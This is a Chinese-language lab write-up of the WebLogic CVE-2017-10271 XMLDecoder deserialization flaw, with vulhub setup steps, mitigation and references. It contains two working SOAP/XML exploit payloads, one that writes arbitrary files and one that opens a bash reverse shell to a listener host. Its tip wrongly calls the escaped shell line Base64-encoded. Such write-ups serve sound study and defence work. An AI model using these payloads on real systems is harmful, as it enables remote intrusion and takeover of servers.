 # CVE-2017-10271 Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞

## Description

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。CVE-2017-10271 是 wls wsat 模块的 RCE 漏洞，这个漏洞的核心就是 XMLDecoder 的反序列化漏洞，关于 XMLDecoder 反序列化的漏洞在2013年就被广泛传播，这次的漏洞是由于官方修复不完善导致被绕过。

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，看到如下页面即为靶场正常运行。

![](images/cve-2017-10271-1.png)

### 漏洞复现

#### 上传任意文件

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>TEST</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```

![](images/cve-2017-10271-2.png)

发送请求后会在目标机器上创建一个 `test.txt` 文件，文件内容为 `TEST`。

访问 `http://your-ip:7001/wls-wsat/test.txt`，即可看到文件内容。

![](images/cve-2017-10271-3.png)

#### 反弹 Shell

在 kali 上监听 4444 端口

访问 `http://your-ip:7001/wls-wsat/CoordinatorPortType`，并通过 BurpSuite 抓包，修改 `Content-Type` 为 `text/xml`，修改 `GET` 为 `POST`，请求体为如下 POC：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
			<java version="1.4.0" class="java.beans.XMLDecoder">
				<void class="java.lang.ProcessBuilder">
				<array class="java.lang.String" length="3">
					<void index="0">
						<string>/bin/bash</string>
					</void>
					<void index="1">
						<string>-c</string>
					</void>
					<void index="2">
						<string>bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1</string>
					</void>
				</array>
				<void method="start"/></void>
			</java>
		</work:WorkContext>
	</soapenv:Header>
	<soapenv:Body/>
</soapenv:Envelope>
```

???+ tip "编码问题"

	`bash -i &gt;&amp; /dev/tcp/192.168.10.20/4444 0&gt;&amp;1` 该反弹 Shell 语句为 Base64 编码后的内容。

![](images/cve-2017-10271-4.png)

请求发送后，kali 上会出现一个反弹 Shell。

![](images/cve-2017-10271-5.png)


## Mitigation

1. 临时方案

删除WebLogicwls-wsat组件

```bash
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm –f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```

重启Weblogic域控制器服务

```bash
DOMAIN_NAME/bin/stopWeblogic.sh
DOMAIN_NAME/bin/startManagedWebLogic.sh
```
2. 通过补丁升级

[http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html](http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html)

## References

- [vulhub](https://vulhub.org/#/environments/weblogic/CVE-2017-10271/)
- [EXPLOIT-DB](https://www.exploit-db.com/exploits/43458)
- [Weblogic XMLDecoder RCE分析](https://paper.seebug.org/487/)
- [WebLogic WLS-WebServices组件反序列化漏洞分析](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices%E7%BB%84%E4%BB%B6%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md)
